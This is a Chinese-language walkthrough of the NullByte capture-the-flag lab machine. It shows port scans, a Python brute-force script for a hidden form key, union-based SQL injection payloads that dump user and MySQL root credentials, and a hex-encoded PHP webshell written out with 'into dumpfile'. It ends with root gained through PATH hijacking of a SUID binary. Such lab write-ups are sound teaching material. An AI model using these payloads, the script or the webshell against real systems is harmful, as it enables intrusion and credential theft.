# 靶机描述

这是一台标榜难度为简单的靶机。我们的任务是获得目标 /root 目录下的 proof.txt 文件。描述里面有个小提示，需要你使用横向思考能力，可能需要你写一些代码。



# 信息收集

## nmap 扫描枚举

1. 主机发现
	目标 ip 是 192.168.2.45

2. 端口扫描

```text
# Nmap 7.98 scan initiated Tue Jul 28 21:36:32 2026 as: /usr/lib/nmap/nmap -sT --min-rate=10000 -p- -oA nmapscan/TCPS 192.168.2.45
Nmap scan report for 192.168.2.45
Host is up (0.00058s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE
80/tcp    open  http
111/tcp   open  rpcbind
777/tcp   open  multiling-http
57476/tcp open  unknown
MAC Address: 00:0C:29:C7:7C:2A (VMware)

# Nmap done at Tue Jul 28 21:36:34 2026 -- 1 IP address (1 host up) scanned in 2.32 seconds

# Nmap 7.98 scan initiated Tue Jul 28 21:37:10 2026 as: /usr/lib/nmap/nmap -sU --min-rate=10000 -p- -oA nmapscan/UDPS 192.168.2.45
Warning: 192.168.2.45 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.2.45
Host is up (0.0019s latency).
Not shown: 65454 open|filtered udp ports (no-response), 78 closed udp ports (port-unreach)
PORT      STATE SERVICE
111/udp   open  rpcbind
5353/udp  open  zeroconf
53879/udp open  unknown
MAC Address: 00:0C:29:C7:7C:2A (VMware)

# Nmap done at Tue Jul 28 21:38:24 2026 -- 1 IP address (1 host up) scanned in 73.47 seconds

```

目标开放了80，111，777，5353，57476，53879 端口。

3. 详细信息扫描

```text
# Nmap 7.98 scan initiated Tue Jul 28 21:41:29 2026 as: /usr/lib/nmap/nmap -sT -sV -O -sC -p80,111,777,57476 -oA nmapscan/details 192.168.2.45
Nmap scan report for 192.168.2.45
Host is up (0.00089s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Null Byte 00 - level 1
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
777/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 16:30:13:d9:d5:55:36:e8:1b:b7:d9:ba:55:2f:d7:44 (DSA)
|   2048 29:aa:7d:2e:60:8b:a6:a1:c2:bd:7c:c8:bd:3c:f4:f2 (RSA)
|   256 60:06:e3:64:8f:8a:6f:a7:74:5a:8b:3f:e1:24:93:96 (ECDSA)
|_  256 bc:f7:44:8d:79:6a:19:48:76:a3:e2:44:92:dc:13:a2 (ED25519)
57476/tcp open  status  1 (RPC #100024)
MAC Address: 00:0C:29:C7:7C:2A (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul 28 21:41:43 2026 -- 1 IP address (1 host up) scanned in 13.58 seconds

```

详细信息扫描的结果显示，目标的 777 的端口开放的是 ssh 服务。111 是一个 RPC(远程程序调用) 服务。

4. 漏洞脚本扫描

```text
# Nmap 7.98 scan initiated Tue Jul 28 21:43:21 2026 as: /usr/lib/nmap/nmap --script=vuln -p80,111,777,57476,5353,53879 -oA nmapscan/vulns 192.168.2.45
Nmap scan report for 192.168.2.45
Host is up (0.00064s latency).

PORT      STATE  SERVICE
80/tcp    open   http
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
| http-enum: 
|   /phpmyadmin/: phpMyAdmin
|_  /uploads/: Potentially interesting folder
111/tcp   open   rpcbind
777/tcp   open   multiling-http
5353/tcp  closed mdns
53879/tcp closed unknown
57476/tcp open   unknown
MAC Address: 00:0C:29:C7:7C:2A (VMware)

# Nmap done at Tue Jul 28 21:48:40 2026 -- 1 IP address (1 host up) scanned in 319.21 seconds

```

漏洞脚本扫描的结果显示 WEB 网页目录中有 /phpmyadmin/ 和 /uploads/ 这两个有价值目录。

# WEB 渗透

## WEB 页面路径查看

1. /uploads/ 路径查看



2.  根目录页面



```
If you search for the laws of harmony, you will find knowledge.
(如果你搜求和谐法则，你将会发现知识。)
```

网页上这个酷似光明会标志的眼睛，其实是一张叫做 main.gif 的图片。根据它给描述的这一句话，我们感受到了非常浓厚的 CTF 风味。大部分图片都是很可能隐藏了一些关键信息。我们下载下来，用专业的工具查看。



main.gif 中的 comment 为"P-): kzMb5nVYJw"。 我推测这可能是一个网站的路径,也有可能是密码。但在 CTF 中或者是说现实中，总有一些网页路径名是不寻常的。或者说，网站开发者不希望太多人知道的。为了那少部分需要知道的用户，开发者采用比较隐蔽的方式将隐藏目录暗示给客户。这是尝试后，返回了一个页面表单。



3. WEB 路径爆破

对网页更目录和隐藏目录进行爆破，看是否存在其他可利用信息。



没有其他网页文件信息。


## 隐藏表单参数 key 爆破

我们在 界面查看源码后，发现作者在注释处暗示了我们一些信息。



提示我们这个表单没法链接数据库，但是密码并不复杂。说明很可能是弱密码。那么只要我们选择一个合适的词典。就能获取信息。首先是词典的选择，很有可能是网页展示出来的字符串信息。我们可以使用 kali cewl 工具生成网页词典。但是尝试过后，没有成功。然后，尝试我们的rockyou.txt 词典。
```text
┌──(kali㉿kali)-[~/NullByte/web]
└─$ cewl http://192.168.2.45/kzMb5nVYJw/index.php -w wordlist.txt
CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```

在前面的爆破尝试中，由于词典不大。因此按照我写的脚本来爆破，kali 执行的结果还是很快的。
但是 rockyou.txt 体量非常大。经过测试我一个小时才爆破 10000 个词。基于时间和效率的考量，我参考了红队笔记的视频，发现 hydra 居然可以爆破网页表单。最终，果断选择 hydra 来进行爆破。大约半小时左右完成，显示 key 是 “elite”。

关于参数部分的指定，可以借助搜索引擎，官方文档或者个人记录博客都行。我这里参考的是这段信息。我个人觉得写得很精练。






这是脚本源码，先自己写，然交给 AI 完善。

```python
#!/usr/bin/python
import requests
import time

session = requests.Session()

with open('/home/kali/NullByte/password.txt','r',encoding='latin-1') as f:
    print("start: ")
    for line in f:
        pwd = line.strip()
        if pwd:
            try:
                r = session.post(
                    'http://192.168.2.45/kzMb5nVYJw/index.php',
                    data={'key':pwd},
                    timeout=1
                )
                if r.status_code == 200 and "invalid key" not in r.text:
                    print("[+] pass = %s \n " % line)
                    break
                else:
                    print("[-] %s is wrong" % pwd)
            except Exception as e:
                print(f"[-] 请求异常 {pwd} , error:{e}")
            time.sleep(0.5)
    print("[+] finished! [+]\n")

```

可以使用这种方式，来测试脚本执行的速率。



破解到这个 lizard1 一共花了 1h27min。可见差不多还要等 1h。脚本还有很大的提升空间。

## 手工 SQL 注入

发现有个/kzMb5nVYJw/index.php,提示我们填写用户名。



测试一下，发现有 SQL 注入，闭合符号是 “



继续测试发现，应该构造闭合符号 %”


我们采用联合注入来利用这个漏洞获取敏感信息。

1. 获得列数
	
	 ```sql
	 isis%" order by 5 --+- 
	 ```
	
	执行结果显示一共有 3 列。
	
	

2. 查看数据库版本，用户，库名

	```sql
	
	 isis%" union select user(),database(),version() --+-
	```

	

3. 查看当前数据库有哪些表，表中有哪些字段，选择用户表，查账号和密码

```sql
-1%" union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+-

#查看当前数据库有那些表。

-1%" union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='users'--+-

#查看users 表中有哪些字段

-1%" union select null,concat(id,0x3A,user,0x3A,pass,0x3A,position),null from users--+- 

#根据 users 表中的字段查找所有的账号和用户名。 

```







获得了以下凭据

```text
1:ramses:YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE: 
2:isis:--not allowed--:employee 
```



使用这个密码登录 ssh 失效了。


发现这条路走不通。笔者突然想当前用户是 root，有写入文件的权限。如果通过注入拿到 root 密码，配合 phpmyadmin 工具，岂不是可以写一个 webshell。

4. 获得 root 密码

```sql
-1%" union select 1,password,3 from mysql.user where user='root' --+-
```

获得密码



成功登录





发现 secure_file_priv 参数为空。说明 mysql 对我们读取和写入操作的范围没有限制。为空说明，没有限制。由于我们是 root 账号，我们对磁盘的读取写入有权限。所以，我们构造一句话木马写入
/var/www/html 目录。

```sql

┌──(kali㉿kali)-[~/NullByte/web]
└─$ echo -n "<?php system(\$_POST['retro']);?>" | xxd -p | tr -d "\n"
3c3f7068702073797374656d28245f504f53545b27726574726f275d293b3f3e  

构造成
select 0x3c3f7068702073797374656d28245f504f53545b27726574726f275d293b3f3e into dumpfile '/var/www/html/kzMb5nVYJw';
```



但是执行失败了，可能是 /var/www/html 没有开放写的权限吧。

现在陷入了僵局，我尝试了几个小时，最后无奈只能看红队笔记的视频。我发现之前操作有失误。ramses 用户的 hash 值是被 base64 加密过的。解密后，ramses 密码的结果是 omega。



登录 ssh 获得立足点。

# 权限提升

获得立足点后，翻看文件目录。查找具有 suid 权限的用户。发现用户执行命令记录中有一个 suid 的权限 procwatch 文件。其中 backup 文件夹也是我们要重点关注的文件夹。



这是一个 32 位的可执行 ELF 文件。



我使用 IDA 反汇编这个 procwatch 进程。



可见这个可执行文件执行了 ps 命令。我们开始思考是否可以增加一些我们自己的"东西"进去，借助这个 prowatch 程序执行。我们采用软连接的方式，因为反汇编的结果现在 ps 不是绝对路径。可以构造一个软连接，通过链接执行我们想要的程序 /bin/sh。返回一个新的子 shell。拿到权限。

这里的 export 命令是将当前目录导出到我们当前环境的路径变量中，这样 procwatch 程序在执行
system 函数时会误以为 /var/www/backup 下名叫 ps 的软连接才是需要执行的 ps 文件。从而错误的给我们打开一个合法身份为 root 的shell 终端。



查看战利品




# 总结

通过端口扫描发现了 80 ，777 ，111，等端口。在 WEB 界面的探索中，发现了 SQL 注入。通过 SQL 注入拿到了 ramses 用户的密码。正好碰撞了 ramses 用户 ssh 登录凭据。通过文件搜索，发现了具备 suid 权限的 procwatch 文件。通过环境变量中路径变量劫持，获得了 root shell。并且查看了 root 目录下的 proof.txt 文件。实现渗透测试目标。

# 上传 WEBSHELL

观看红笔视频，发现 uploads 目录是可以上传。虽然 WEB 目录设置不可写。但是 uploads 目录 就明示你，这里可以上传文件。这里 uploads 文件不仅可以上传，还可以执行。

